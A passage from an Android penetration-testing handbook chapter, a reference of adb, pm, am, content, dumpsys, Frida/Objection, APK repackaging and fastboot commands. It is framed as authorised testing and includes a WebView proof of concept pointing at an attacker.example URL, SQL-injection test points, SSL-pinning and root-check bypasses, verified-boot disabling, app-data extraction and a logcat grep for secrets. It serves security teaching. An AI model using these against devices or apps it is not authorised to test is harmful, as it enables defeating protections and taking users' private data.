



# 77 — Useful Commands

> After this chapter you will have a single, trustworthy place to look up every command you actually
> use during an Android engagement — and, more importantly, you will understand what each one is
> doing to the device rather than copying it blindly.

**Prerequisites:** [02-Linux-Basics](../02-Linux-Basics/README.md), [60-ADB](../60-ADB/README.md)
**Applies to:** Android 8–16 (API 26–36), noted where behaviour differs

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

Every craft has a set of motions that become automatic. A carpenter does not think about how to hold
a chisel; a surgeon does not think about how to tie a knot. For an Android security tester, the
equivalent motions are a few hundred shell commands that you will run thousands of times over a
career.

This chapter is that set of motions. But it is deliberately **not** a bare list.

> **🧠 Mental Model**
> A command-line tool is a *user interface to a system service*. When you type `pm list packages`,
> you are not running a program that reads a file — you are opening a Binder connection to
> `PackageManagerService` running inside `system_server` and asking it a question. Every command in
> this chapter is a doorway into a subsystem you have already studied. If you know which subsystem a
> command talks to, you can predict what it can and cannot tell you, and you can predict how it will
> fail.

### Why a "commands" chapter exists at all

There are three failure modes this chapter is designed to prevent.

**The first is copy-paste blindness.** A tester finds a Frida script on a blog, runs it, sees an
error, and is stuck — because they never understood that the script attaches to a process by name
and their target runs under a different process name because of `android:process`. Knowing the
command's *mechanism* turns a dead end into a thirty-second fix.

**The second is the missing 20%.** Most people know `adb shell` and `adb install`. Far fewer know
that `adb shell dumpsys package <pkg>` prints every declared component, permission, signature digest
and install source in one screen — which is most of a manifest audit, from a running device, in one
command. The gap between the common 80% and the useful 100% is where speed comes from.

**The third is device damage.** Some commands in this chapter will brick a device or destroy
evidence if run in the wrong order or on the wrong partition. Each of those carries a warning.

> **⚠️ Warning**
> Everything here assumes a device you own or are explicitly authorised to test. Several commands
> (`fastboot flashing unlock`, `pm uninstall`, `adb backup`, `dd` on a partition) are destructive or
> forensically significant. Read the warning attached to a command before you run it, not after.

### How to read the tables

Each command table has the same columns:

| Column | Meaning |
|---|---|
| Command | The literal invocation |
| What it does | Plain-English effect |
| Talks to | The subsystem or service behind it — the thing that decides whether it works |
| Needs | `adb`, `shell`, `root`, or `host` — the privilege required |

The "Talks to" column is the one that makes this chapter different from a cheat sheet. Use it.

---

## 2. High-Level Architecture

### Where your commands actually land



Read that diagram carefully, because it explains almost every "why doesn't this work" question you
will ever have.

Your `adb` client never talks to the device directly. It talks to a **local server process** on your
workstation listening on TCP port 5037, and that server owns the USB connection. This is why
`adb kill-server` fixes so many problems, and why two versions of `adb` on the same machine fight
each other.

On the device, `adbd` runs as the `shell` user (UID 2000), *not* as root, on any production build.
The `shell` user is a normal-ish Linux user with a specific set of extra group memberships. When you
run `pm list packages`, you are running a small Java program as UID 2000 that opens a Binder
connection to `PackageManagerService`. The permission check happens **in `system_server`, against
UID 2000** — which is exactly why some `pm` subcommands work and others say "Permission Denial". The
`shell` user is deliberately granted a set of privileges that a normal app does not have, because
`shell` is understood to be the developer's own hands on the device.

Fastboot is a completely separate world. The device is not booted; there is no Linux userspace, no
Binder, no `adbd`. The bootloader itself implements a small USB protocol. Nothing you know about
Android applies there, which is why fastboot commands are so blunt and so dangerous.

Frida sits outside both. `frida-server` runs as root, and reaches into your target process using
`ptrace` and memory mapping. `adb forward` is what lets your host tools reach it.

### The privilege ladder



Almost every command in this chapter runs at the `shell` level. A minority need root. Knowing which
tier a command needs saves you from the two most common beginner errors: assuming you need root when
you do not, and assuming root will fix a problem that is actually SELinux.

---

## 3. Deep Internal Working

### 3.1 ADB — connection and device management

| Command | What it does | Talks to | Needs |
|---|---|---|---|
| `adb devices -l` | Lists attached devices with product/model/transport | Local adb server | host |
| `adb kill-server` / `adb start-server` | Restarts the local server; fixes most "device not found" issues | Local adb server | host |
| `adb -s <serial> <cmd>` | Targets a specific device when several are attached | adb server | host |
| `adb wait-for-device` | Blocks until a device appears; essential in scripts | adb server | host |
| `adb get-state` | `device`, `recovery`, `bootloader`, `offline` | adbd | host |
| `adb root` | Restarts `adbd` as root — **only on `userdebug`/`eng` builds** | adbd | adb |
| `adb unroot` | Restarts `adbd` as shell | adbd | adb |
| `adb remount` | Remounts `/system` read-write — needs root and often `disable-verity` | adbd, kernel | root |
| `adb disable-verity` | Turns off dm-verity so `/system` can be modified; **requires reboot** | adbd, vbmeta | root |
| `adb reboot` / `adb reboot bootloader` / `adb reboot recovery` / `adb reboot fastboot` | Reboots into the named mode | adbd → init | adb |
| `adb tcpip 5555` | Switches `adbd` to listen on TCP | adbd | adb |
| `adb connect <ip>:5555` | Connects over the network | adb server | host |
| `adb pair <ip>:<port>` | Wireless debugging pairing (Android 11+) | adbd | host |
| `adb forward tcp:27042 tcp:27042` | Forwards a host port to a device port | adb server, adbd | adb |
| `adb reverse tcp:8080 tcp:8080` | Forwards a **device** port to a **host** port — how you point an app at a proxy on your laptop | adbd | adb |

> **🔍 Pentester's Note**
> `adb reverse` is underused and enormously useful. If a device cannot reach your laptop's Burp
> instance over the network (corporate WiFi, no route, hotel captive portal), `adb reverse` makes
> `127.0.0.1:8080` on the device resolve to your laptop. Combine with
> `adb shell settings put global http_proxy 127.0.0.1:8080` and you have interception over nothing
> but the USB cable.

> **⚠️ Warning**
> `adb tcpip 5555` leaves a completely unauthenticated root-adjacent shell listening on the network
> until the next reboot. On a shared or untrusted network this is a genuine compromise of your test
> device. Prefer `adb pair` on Android 11+, and turn it off with `adb usb` when you are done.

**File transfer:**

| Command | What it does | Notes |
|---|---|---|
| `adb push <local> <remote>` | Copies host → device | Fails on paths the `shell` user cannot write |
| `adb pull <remote> <local>` | Copies device → host | Add `-a` to preserve timestamps |
| `adb pull /sdcard/dir .` | Pulls a whole directory recursively | |
| `adb shell "run-as <pkg> tar -cf - ."` `> app.tar` | Extracts a debuggable app's private data without root | The most useful no-root data-extraction trick |

**Install and uninstall:**

| Command | What it does | Notes |
|---|---|---|
| `adb install app.apk` | Standard install | |
| `adb install -r app.apk` | Reinstall keeping data | Signature must match |
| `adb install -t app.apk` | Allows `testOnly` APKs | Needed for many debug builds |
| `adb install -d app.apk` | Allows version downgrade | |
| `adb install -g app.apk` | Grants all runtime permissions immediately | Saves enormous time in testing |
| `adb install --bypass-low-target-sdk-block app.apk` | Installs an app targeting an SDK newer Android would block (Android 14+) | Essential for testing old real-world APKs |
| `adb install-multiple base.apk split_*.apk` | Installs a split APK set | For App Bundle output |
| `adb uninstall <pkg>` | Removes app and data | |
| `adb uninstall -k <pkg>` | Removes app, **keeps** data | Useful for testing data left behind |
| `adb shell pm uninstall --user 0 <pkg>` | Removes a system app for the current user without root | Very useful on stock devices |

### 3.2 Package Manager (`pm` / `cmd package`)

Everything here is a Binder call into `PackageManagerService`.

| Command | What it does |
|---|---|
| `pm list packages` | All package names |
| `pm list packages -3` | Third-party only — always start here |
| `pm list packages -s` | System packages only |
| `pm list packages -d` / `-e` | Disabled / enabled only |
| `pm list packages -f` | Include the APK path for each |
| `pm list packages -u` | Include uninstalled-but-retained packages |
| `pm list packages --user 10` | For a specific user or work profile |
| `pm path <pkg>` | Prints the APK path(s) — how you find an app to pull |
| `pm dump <pkg>` | Everything PMS knows (same as `dumpsys package <pkg>`) |
| `pm list permissions -d -g` | All dangerous permissions grouped |
| `pm list permissions -f` | Full detail including protection level |
| `pm grant <pkg> <permission>` | Grants a runtime permission |
| `pm revoke <pkg> <permission>` | Revokes it |
| `pm reset-permissions` | Resets all runtime permissions |
| `pm clear <pkg>` | Wipes app data — **destructive, and it destroys your evidence** |
| `pm disable-user --user 0 <pkg>` | Disables a package |
| `pm enable <pkg>` | Re-enables it |
| `pm compile -m speed -f <pkg>` | Forces full AOT compilation |
| `pm compile --reset <pkg>` | Resets compilation state |
| `pm dump-profiles <pkg>` | Dumps the app's ART profile |
| `pm get-privapp-permissions <pkg>` | Privileged permissions granted |
| `pm list users` | Users and work profiles on the device |

**The single most useful package command:**

```bash
# adb shell — a large fraction of a manifest audit, from a live device
dumpsys package com.example.target
```

That output contains the declared permissions, requested permissions and their granted state, every
activity/service/receiver/provider with its intent filters and exported status, the signing
certificate digest, the install source, the `targetSdk`, the data directory, the UID, and the
version. When you cannot get the APK, this is your manifest.

### 3.3 Activity Manager (`am` / `cmd activity`)

This is your primary tool for exercising an app's exported attack surface by hand.

| Command | What it does |
|---|---|
| `am start -n <pkg>/<activity>` | Launches a specific activity explicitly |
| `am start -a <ACTION> -d <uri>` | Launches by implicit intent — tests deep links |
| `am start -a android.intent.action.VIEW -d "myapp://path"` | Fires a custom-scheme deep link |
| `am start -W ...` | Waits and reports launch timing and result |
| `am start --user 0 ...` | Targets a specific user |
| `am broadcast -a <ACTION>` | Sends a broadcast |
| `am broadcast -a <ACTION> -n <pkg>/<receiver>` | Sends it to one specific receiver |
| `am startservice -n <pkg>/<service>` | Starts a service (`am start-service` on newer builds) |
| `am force-stop <pkg>` | Kills the app entirely |
| `am kill <pkg>` | Kills background processes only |
| `am crash <pkg>` | Forces a crash — useful for testing restoration paths |
| `am set-debug-app -w <pkg>` | Waits for a debugger on next launch |
| `am clear-debug-app` | Clears it |
| `am monitor` | Watches for crashes and ANRs |
| `am instrument -w <pkg>/<runner>` | Runs an instrumentation test |

**Passing extras** — memorise this table, you will use it constantly:

| Flag | Type | Example |
|---|---|---|
| `--es` | String | `--es key value` |
| `--esn` | String, null | `--esn key` |
| `--ei` | int | `--ei key 42` |
| `--el` | long | `--el key 42` |
| `--ef` | float | `--ef key 1.5` |
| `--ez` | boolean | `--ez key true` |
| `--eu` | URI | `--eu key content://x/y` |
| `--ecn` | ComponentName | `--ecn key pkg/.Cls` |
| `--eia` | int array | `--eia key 1,2,3` |
| `--esa` | String array | `--esa key a,b,c` |
| `-f` | Intent flags (hex) | `-f 0x10000000` |
| `--grant-read-uri-permission` | Adds `FLAG_GRANT_READ_URI_PERMISSION` | |
| `--activity-clear-top` | Adds `FLAG_ACTIVITY_CLEAR_TOP` | |

> **🔍 Pentester's Note**
> An exported activity that takes a URL in an extra and loads it into a WebView is one of the most
> common real-world Android findings. The entire proof of concept is one line:
> ```bash
> # adb shell
> am start -n com.example/.WebActivity --es url "https://attacker.example/"
> ```
> If that renders attacker content inside the app's WebView with a session cookie attached, you have
> a high-severity finding and the PoC fits in a tweet.

### 3.4 Content Providers (`content`)

| Command | What it does |
|---|---|
| `content query --uri content://<authority>/<path>` | Reads from a provider |
| `content query --uri <uri> --projection <cols>` | Selects columns — a projection-injection test point |
| `content query --uri <uri> --where "1=1"` | Selection clause — a SQL-injection test point |
| `content query --uri <uri> --sort "x"` | Sort order — a frequently missed injection point |
| `content insert --uri <uri> --bind k:s:v` | Inserts a row |
| `content update --uri <uri> --bind k:s:v --where ...` | Updates rows |
| `content delete --uri <uri> --where ...` | Deletes rows |
| `content call --uri <uri> --method <m> --arg <a>` | Invokes the provider's `call()` RPC |
| `content read --uri <uri>` | Reads a file through `openFile` — path traversal test point |

Bind types are `s` (string), `i` (int), `l` (long), `f` (float), `d` (double), `b` (boolean),
`n` (null).

> **⚠️ Warning**
> `content delete` and `content update` change the target app's data. On a real engagement, take a
> copy of the app's data directory first, and prefer read-only tests unless write access is
> explicitly in scope.

### 3.5 System services (`dumpsys`, `service`, `cmd`)

| Command | What it does |
|---|---|
| `dumpsys -l` | Lists every dumpable service — start here |
| `dumpsys package <pkg>` | Full package record (see above) |
| `dumpsys activity activities` | The full activity/task stack |
| `dumpsys activity top` | The currently focused activity — how you find the class name of the screen you are looking at |
| `dumpsys activity broadcasts` | Registered receivers and recent broadcasts |
| `dumpsys activity services <pkg>` | Running services |
| `dumpsys activity providers` | Registered providers |
| `dumpsys window windows` | Window list; shows overlays and `FLAG_SECURE` |
| `dumpsys window \| grep mCurrentFocus` | The focused window — fastest way to identify the current screen |
| `dumpsys meminfo <pkg>` | Memory breakdown including dalvik/native split |
| `dumpsys battery` | Battery state; `unplug` and `reset` subcommands are useful for testing |
| `dumpsys deviceidle` | Doze state |
| `dumpsys netstats` | Per-UID network usage |
| `dumpsys jobscheduler` | Scheduled jobs |
| `dumpsys account` | AccountManager accounts and authenticators |
| `dumpsys user` | Users and profiles |
| `dumpsys appops` | AppOps state for every package |
| `service list` | Every registered Binder service |
| `service call <name> <code> i32 1 s16 "x"` | Invokes a Binder transaction by number — manual Binder testing |
| `cmd <service> <args>` | The modern replacement for many `dumpsys` write operations |
| `cmd package ...` | Same as `pm` |
| `cmd notification post ...` | Posts a notification |

> **🔬 Under the Hood**
> `service call` sends a raw Binder transaction with a transaction code you supply. Transaction codes
> are just sequential integers assigned in the order methods appear in the AIDL interface, starting
> at `FIRST_CALL_TRANSACTION` (1). If you can read the AIDL — from AOSP, or reconstructed from a
> decompiled `Stub` class — you can call any method of any service by hand, with no code. This is the
> lowest-level manual IPC testing technique available to you, and it works when nothing else does.
> See [25-Binder](../25-Binder/README.md).

### 3.6 Settings and properties

| Command | What it does |
|---|---|
| `settings list global` / `system` / `secure` | Dumps a settings namespace |
| `settings get global http_proxy` | Reads one value |
| `settings put global http_proxy 10.0.2.2:8080` | Sets a device-wide HTTP proxy |
| `settings put global http_proxy :0` | Clears it |
| `settings put global adb_enabled 1` | Enables ADB |
| `settings put secure enabled_accessibility_services <pkg>/<svc>` | Enables an accessibility service |
| `settings put system screen_off_timeout 1800000` | Stops the screen locking during a long test |
| `getprop` | All system properties |
| `getprop ro.build.version.sdk` | API level |
| `getprop ro.build.version.security_patch` | Security patch level — always record this |
| `getprop ro.product.cpu.abi` | Primary ABI, tells you which `lib/` dir matters |
| `getprop ro.debuggable` | `1` on eng/userdebug |
| `getprop ro.boot.verifiedbootstate` | `green`/`yellow`/`orange` — bootloader/verified boot state |
| `getprop ro.build.tags` | `release-keys` vs `test-keys` |
| `setprop <key> <value>` | Sets a property (root for most; `ro.*` are immutable after set) |

**Properties worth recording at the start of every engagement:**

```bash
# adb shell — environment capture for your report
for p in ro.build.fingerprint ro.build.version.release ro.build.version.sdk \
         ro.build.version.security_patch ro.build.tags ro.build.type \
         ro.product.cpu.abi ro.boot.verifiedbootstate ro.debuggable ro.secure; do
  echo "$p = $(getprop $p)"
done
```

### 3.7 Logcat

| Command | What it does |
|---|---|
| `adb logcat` | Everything |
| `adb logcat -c` | Clears the buffer — do this before reproducing an issue |
| `adb logcat -d` | Dump and exit |
| `adb logcat -v time` / `-v threadtime` / `-v long` | Output formats |
| `adb logcat *:E` | Errors and above |
| `adb logcat -s MyTag` | Only one tag |
| `adb logcat --pid=$(adb shell pidof -s <pkg>)` | Only the target app — the filter you want 90% of the time |
| `adb logcat -b all` | All buffers (main, system, crash, events, radio) |
| `adb logcat -b crash` | Just crashes |
| `adb logcat -G 16M` | Enlarges the buffer so you do not lose events |
| `adb logcat -f /sdcard/log.txt` | Writes to a file on the device |

> **🔍 Pentester's Note**
> Run this at the start of every dynamic session and leave it running in a second terminal:
> ```bash
> # host
> adb logcat -c && adb logcat -v threadtime | grep -iE "token|password|secret|key|auth|session|jwt|http"
> ```
> Sensitive data in logs remains one of the most reliably present findings in real applications,
> because `Log.d` calls survive into release builds unless the developer strips them deliberately.
> Note that since Android 4.1 an app can only read its **own** logs, so this finding's severity
> depends on context — but on a rooted or debuggable device, and for any app with `READ_LOGS`, it is
> real. See [33-Storage](../33-Storage/README.md).

### 3.8 Processes, memory and the filesystem

| Command | What it does |
|---|---|
| `ps -A` | All processes |
| `ps -A -o PID,USER,NAME` | Trimmed output |
| `ps -Z` | With SELinux contexts |
| `pidof <pkg>` | PID of a package's process |
| `top -m 10` | Live resource use |
| `cat /proc/<pid>/maps` | Full memory map — libraries, heap, stacks |
| `cat /proc/<pid>/status` | UID/GID, threads, and `TracerPid` (anti-debug relevance) |
| `cat /proc/<pid>/cmdline` | Process name |
| `ls -l /proc/<pid>/fd` | Open file descriptors — reveals sockets, databases, pipes |
| `cat /proc/<pid>/environ` | Environment variables |
| `cat /proc/net/tcp` / `tcp6` / `unix` | Sockets, including abstract-namespace UNIX sockets |
| `ls -laZ /data/data/<pkg>` | App data with SELinux labels (root) |
| `ls -laZ /data/app/` | Installed APK locations |
| `du -sh /data/data/<pkg>/*` | What is taking space — and where the data is |
| `find /data/data/<pkg> -type f` | Every file the app has written (root) |
| `mount` / `cat /proc/mounts` | Mount table — reveals Magisk's overlays |
| `df -h` | Filesystem usage |
| `getenforce` | SELinux enforcing/permissive |
| `id` / `id -Z` | Current UID and SELinux context |

**Extracting an app's data without root** (only works if the app is `debuggable`):

```bash
# adb shell
run-as com.example.target sh -c 'tar czf - .' > /sdcard/appdata.tgz
exit
adb pull /sdcard/appdata.tgz
```

**Extracting with root:**

```bash
# adb shell as root
tar czf /sdcard/appdata.tgz -C /data/data/com.example.target .
exit
adb pull /sdcard/appdata.tgz
```

### 3.9 APK handling on the host

| Command | What it does |
|---|---|
| `adb shell pm path <pkg>` | Find the APK(s) |
| `adb pull <path>` | Retrieve it |
| `unzip -l app.apk` | List contents without extracting |
| `unzip -o app.apk -d out/` | Extract raw (manifest stays binary) |
| `apktool d app.apk -o out/` | Decode resources and manifest, produce Smali |
| `apktool b out/ -o patched.apk` | Rebuild |
| `aapt2 dump badging app.apk` | Package name, version, SDK levels, permissions, launchable activity |
| `aapt2 dump xmltree app.apk --file AndroidManifest.xml` | The manifest as parsed — cross-check against apktool |
| `aapt2 dump resources app.apk` | Resource table |
| `apksigner verify -v --print-certs app.apk` | Which signature schemes and which certificate |
| `keytool -printcert -jarfile app.apk` | Certificate details |
| `zipalign -c -v 4 app.apk` | Check alignment |
| `zipalign -p -f -v 4 in.apk out.apk` | Align (do this **before** signing) |
| `apksigner sign --ks my.keystore out.apk` | Sign |
| `jadx -d out/ app.apk` | Decompile to Java |
| `jadx-gui app.apk` | Interactive decompiler |
| `d2j-dex2jar app.apk` | DEX → JAR |
| `baksmali d classes.dex -o smali/` | DEX → Smali |
| `smali a smali/ -o classes.dex` | Smali → DEX |
| `strings -a -n 8 lib/arm64-v8a/libfoo.so` | Strings in a native library |
| `readelf -d lib/arm64-v8a/libfoo.so` | Dynamic section, `DT_NEEDED` dependencies |
| `readelf -s lib/arm64-v8a/libfoo.so` | Symbols — find `Java_*` JNI entry points |
| `objdump -d --demangle lib/arm64-v8a/libfoo.so` | Disassembly |
| `nm -D lib/arm64-v8a/libfoo.so` | Dynamic symbols |

**The complete repackage cycle**, which you will run hundreds of times:

```bash
# host — decode, patch, rebuild, align, sign, install
apktool d target.apk -o work/
# ... edit work/smali/... or work/AndroidManifest.xml or work/res/xml/network_security_config.xml ...
apktool b work/ -o patched.apk
zipalign -p -f -v 4 patched.apk patched-aligned.apk
apksigner sign --ks ~/.android/debug.keystore --ks-pass pass:android \
  --out patched-signed.apk patched-aligned.apk
apksigner verify -v patched-signed.apk
adb install -r patched-signed.apk
```

> **⚠️ Warning**
> The order matters. `zipalign` must run **before** `apksigner`, because signing computes digests
> over the final bytes and aligning afterwards would invalidate them. If you align after signing, the
> APK will either fail verification or be rejected at install with a signature error, and you will
> lose twenty minutes wondering why.

### 3.10 Frida and Objection

| Command | What it does |
|---|---|
| `frida-ps -U` | Processes on the USB device |
| `frida-ps -Ua` | Only running applications |
| `frida-ps -Uai` | All installed applications with identifiers |
| `frida -U -f <pkg> -l s.js` | Spawn the app and inject at startup |
| `frida -U -f <pkg> -l s.js --pause` | Spawn but hold; resume manually |
| `frida -U -n <process> -l s.js` | Attach to a running process by name |
| `frida -U -p <pid> -l s.js` | Attach by PID |
| `frida-trace -U -f <pkg> -i "open*"` | Auto-generate handlers for matching native functions |
| `frida-trace -U -f <pkg> -j "com.example.*!*"` | Trace Java methods by pattern |
| `frida-server &` (on device, as root) | Start the agent |
| `objection -g <pkg> explore` | Interactive session |
| `objection -g <pkg> explore -s "android sslpinning disable"` | Run a command at startup |

**Inside an Objection session:**

| Command | What it does |
|---|---|
| `android sslpinning disable` | Attempts a set of known pinning bypasses |
| `android root disable` | Attempts common root-check bypasses |
| `android hooking list activities` | Lists activities |
| `android hooking list services` | Lists services |
| `android hooking list classes` | Every loaded class |
| `android hooking search classes <term>` | Find classes by name |
| `android hooking search methods <term>` | Find methods by name |
| `android hooking watch class <fqcn>` | Log every method call on a class |
| `android hooking watch class_method <fqcn.method> --dump-args --dump-return --dump-backtrace` | The single most useful Objection command |
| `android intent launch_activity <fqcn>` | Launch an activity |
| `android intent launch_service <fqcn>` | Start a service |
| `android keystore list` | Enumerate AndroidKeyStore entries |
| `android heap search instances <fqcn>` | Find live objects |
| `android heap execute <handle> <method>` | Call a method on a live object |
| `memory list modules` | Loaded libraries |
| `memory list exports <module>` | Exported symbols |
| `memory dump all /tmp/dump` | Dump process memory |
| `env` | App's directory paths |
| `file download <remote> <local>` | Pull a file from the app sandbox |
| `sqlite connect <path>` | Open an app database |

Standard `frida-server` setup:

```bash
# host — match the frida-server version to your frida client version exactly
adb push frida-server-<ver>-android-arm64 /data/local/tmp/frida-server
adb shell "chmod 755 /data/local/tmp/frida-server"
adb shell "su -c '/data/local/tmp/frida-server &'"
frida-ps -U   # verify
```

> **⚠️ Warning**
> A version mismatch between the `frida` Python package on your host and `frida-server` on the device
> produces confusing failures that look like device or permission problems. Check with
> `frida --version` and download the matching server release. This is the single most common Frida
> setup problem.

### 3.11 Network capture

| Command | What it does |
|---|---|
| `settings put global http_proxy <ip>:<port>` | Device-wide proxy |
| `settings put global http_proxy :0` | Remove it |
| `adb reverse tcp:8080 tcp:8080` | Route device `127.0.0.1:8080` to your host |
| `tcpdump -i any -s 0 -w /sdcard/cap.pcap` | Full packet capture (root; needs a tcpdump binary) |
| `adb pull /sdcard/cap.pcap` | Retrieve it for Wireshark |
| `adb shell ip addr` | Device IP addresses |
| `adb shell netstat -tulpn` | Listening sockets — finds localhost services |
| `adb shell cat /proc/net/unix` | UNIX sockets including the abstract namespace |

Installing a CA certificate as a **system** certificate (required from Android 7.0 for apps that do
not opt into user CAs — see [35-SSL](../35-SSL/README.md)):

```bash
# host — compute the hashed filename Android expects
openssl x509 -inform PEM -subject_hash_old -in burp.pem | head -1
# e.g. 9a5ba580  ->  the file must be named 9a5ba580.0
cp burp.pem 9a5ba580.0
adb push 9a5ba580.0 /data/local/tmp/
```

```bash
# adb shell as root — on a Magisk device, prefer a systemless module over remounting
mount -o rw,remount /system
cp /data/local/tmp/9a5ba580.0 /system/etc/security/cacerts/
chmod 644 /system/etc/security/cacerts/9a5ba580.0
chown root:root /system/etc/security/cacerts/9a5ba580.0
mount -o ro,remount /system
```

> **⚠️ Warning**
> On Android 14 and later the system CA store moved and is managed by the Conscrypt APEX module, so
> a plain `/system` remount is no longer sufficient. Use a Magisk module designed for the Android
> version you are on. Remounting `/system` also requires `adb disable-verity` and a reboot, and on a
> locked-bootloader device it will fail outright.

### 3.12 Fastboot

> **⚠️ Warning**
> This entire section can permanently destroy a device. `fastboot flashing unlock` **erases all user
> data**. Flashing a wrong or mismatched image can produce an unbootable device with no recovery
> path. Never run these against a device that is not yours and that you cannot afford to lose.

| Command | What it does |
|---|---|
| `fastboot devices` | List devices in bootloader mode |
| `fastboot getvar all` | All bootloader variables including lock state |
| `fastboot flashing unlock` | Unlock the bootloader — **wipes the device** |
| `fastboot flashing lock` | Re-lock |
| `fastboot oem unlock` | Legacy unlock command |
| `fastboot boot boot.img` | Boot an image **without** flashing it — the safe way to test a patched boot image |
| `fastboot flash boot boot.img` | Flash the boot partition |
| `fastboot flash vbmeta --disable-verity --disable-verification vbmeta.img` | Disable verified boot |
| `fastboot --set-active=a` | Switch A/B slot |
| `fastboot reboot` / `fastboot reboot bootloader` | Reboot |
| `fastboot erase userdata` | Wipe user data |

> **🔍 Pentester's Note**
> Always use `fastboot boot patched_boot.img` before `fastboot flash boot patched_boot.img`. Booting
> the image is non-persistent: if it fails, you power-cycle and you are back where you started. If you
> flash first and the image is wrong, you may have a device stuck in a bootloop with no working
> recovery.

---

## 4. Source Code Walkthrough (AOSP)

Understanding where these commands live in AOSP turns them from magic strings into readable programs.
Every one of them is open source and short enough to read in an afternoon.

| Command | AOSP location | What you learn by reading it |
|---|---|---|
| `am` | `frameworks/base/cmds/am/` (now largely `cmd activity`) | Exactly how argument strings become an `Intent` object — including the extras parsing table above |
| `pm` | `frameworks/base/cmds/pm/` and `services/core/java/com/android/server/pm/` | Which `pm` operations are permission-checked and against which permission |
| `cmd` | `frameworks/native/cmds/cmd/` | The generic mechanism: it looks up a service by name and calls its `shellCommand` Binder method |
| `dumpsys` | `frameworks/native/cmds/dumpsys/` | It calls each service's `dump()` — which is why what you see is decided by each service, not by dumpsys |
| `content` | `frameworks/base/cmds/content/` | How `--bind` type letters map to `ContentValues` types |
| `service` | `frameworks/native/cmds/service/` | Raw Binder transaction construction — the clearest small example of Parcel writing |
| `adbd` | `packages/modules/adb/` | The adb wire protocol, the auth handshake, and why `shell` is the identity you get |
| `logcat` | `system/logging/logcat/` | Buffer selection and the per-UID read restriction |
| `settings` | `frameworks/base/packages/SettingsProvider/` | That `settings` is a thin client over a ContentProvider — so the same values are reachable via `content query` |

### Tracing one command end to end

Take `am start -n com.example/.MainActivity`. The path is:

1. The shell resolves `am`, which on modern builds is a script that invokes `cmd activity start`.
2. `cmd` (`frameworks/native/cmds/cmd/cmd.cpp`) asks `servicemanager` for the `activity` service and
   obtains an `IBinder`.
3. It calls `IBinder::shellCommand()`, passing the argument array and the three standard file
   descriptors over Binder. Passing FDs across Binder is why the command's output appears in your
   terminal.
4. Inside `system_server`, `ActivityManagerService.onShellCommand()` receives it and hands off to
   `ActivityManagerShellCommand`, which parses the arguments and builds an `Intent`.
5. `ActivityManagerService.startActivityAsUser()` runs, performing the permission and export checks —
   this is where an unexported component refuses your request.
6. `ActivityTaskManagerService` and `ActivityStarter` resolve the component, apply task and launch
   mode rules, and eventually the target process's `ActivityThread` receives a Binder callback to
   instantiate and start the Activity.

> **🔬 Under the Hood**
> Step 5 is the one that matters to you. When `am start` fails with
> `Permission Denial: starting Intent ... not exported from uid ...`, that message is produced inside
> `ActivityStarter` after it consulted the `ActivityInfo` that `PackageManagerService` parsed from
> the manifest. The check is against **your** UID (2000, `shell`). This is also why `shell` can start
> some non-exported components that a normal app cannot — `shell` holds
